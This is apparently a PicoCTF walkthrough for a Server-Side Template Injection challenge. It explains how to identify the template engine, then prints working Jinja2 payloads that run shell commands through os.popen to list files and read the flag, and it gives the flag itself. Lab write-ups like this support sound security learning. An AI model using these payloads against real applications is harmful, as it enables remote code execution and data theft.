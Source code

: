 
# 🧠 SSTI - PicoCTF Walkthrough

### Okay let's get into the point...  
> **What is SSTI?**  

The hint says: it stands for **Server-Side Template Injection**.

After some searching 🕵️‍♀️, I’ve found that:

> **SSTI** → is a vulnerability that happens when user input is **unsafely embedded** into a *template*,  
> and the **template engine evaluates it as code** on the server.  
>  
> This can lead to:
> - 💥 Remote Code Execution (RCE)  
> - 🔍 Data leakage  
> - 🚨 Other serious impacts (depending on the context and language)

---

## 🤔 How to know the template engine or the language?

But first...

### Is a template engine tied to a specific language?

✅ **Yes and No**  
Some languages have **default or popular template engines**, but you're *not strictly limited* to them.  
You *can* switch between engines for the same language — but in reality, most devs **stick to the default or most popular one**.

---

### 📊 Here’s a quick summary table:

| Language | Framework        | Default / Common Template Engine         |
|----------|------------------|------------------------------------------|
| **Python** | Flask          | Jinja2                                   |
|          | Django           | Django Templates (custom syntax)        |
|          | Tornado          | Tornado templates                        |
|          | FastAPI          | Jinja2 (when templates used)             |
| **PHP**   | Laravel         | Blade                                    |
|          | Symfony          | Twig                                     |
|          | CodeIgniter      | PHP itself / custom                      |
| **Java**  | Spring MVC      | Thymeleaf or JSP                         |
|          | Struts           | JSP                                      |
|          | Play Framework   | Scala templates / Twirl                  |
| **Node.js** | Express.js   | EJS, Handlebars, Pug (choice-based)      |
|          | Next.js          | JSX (React)                              |
| **Ruby**  | Ruby on Rails   | ERB                                      |
| **Go**    | net/http        | Go’s native `html/template` or `text/template` |

---

## 🔍 How to detect which template engine to inject?

There are **two main ways**:

---

### 1️⃣ Try common syntax injections:

| Syntax       | Common in             | Example Test     | Output |
|--------------|-----------------------|------------------|--------|
| `{{7*7}}`     | Jinja2, Twig           | → `49`           |
| `${7*7}`      | Velocity, FreeMarker   | → `49`           |
| `<%= 7*7 %>`  | EJS, ERB               | → `49`           |
| `[[ 7*7 ]]`   | AngularJS (client-side)| → `49` (in DOM)  |

---

#### 👇 Example from the challenge:

![image](https://github.com/user-attachments/assets/f6f7d3c6-b154-4578-b4e0-8b7c5bf50ec0)

![image](https://github.com/user-attachments/assets/33c006e0-d3ef-41d4-947d-ae2749a85209)

As you saw above — `{{ 3 * 3 }}` worked → so it's **very likely Jinja2** ✅

---

### 2️⃣ Use headers to guess the backend stack:

```bash
curl -I http://rescued-float.picoctf.net:63948/announce
```

👇 and from the `Server` header you see:

> `Python + Werkzeug` = Flask → Jinja2 🎯

---

## 🚀 Let's inject!

```jinja2
{{ config.__class__.__init__.__globals__['os'].popen('ls -R').read() }}
```

![image](https://github.com/user-attachments/assets/3db571c4-a36b-4d6e-9509-f0f19b87886b)

### 🧠 Why this works:

- `config` is often available in Flask/Jinja2 templates  
- `config.__class__` → gets the class of the config dict  
- `.__init__.__globals__` → gives access to the global scope, including the `os` module  
- `['os'].popen('ls -R').read()` → executes the shell command and returns the output

---

### 📁 Directory listing:

```
.
├── __pycache__
│   └── app.cpython-38.pyc
├── app.py
├── flag
└── requirements.txt
```

---

## 🎯 Read the flag!

```jinja2
{{ config.__class__.__init__.__globals__['os'].popen('cat flag').read() }}
```

![image](https://github.com/user-attachments/assets/1d7ab2cf-0a47-4c36-b011-5409c4a2c522)

---

## 🏁 Flag:

```
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_99fe4411}
```

---

## ✅ I hope this adds to your methodology 🔐  
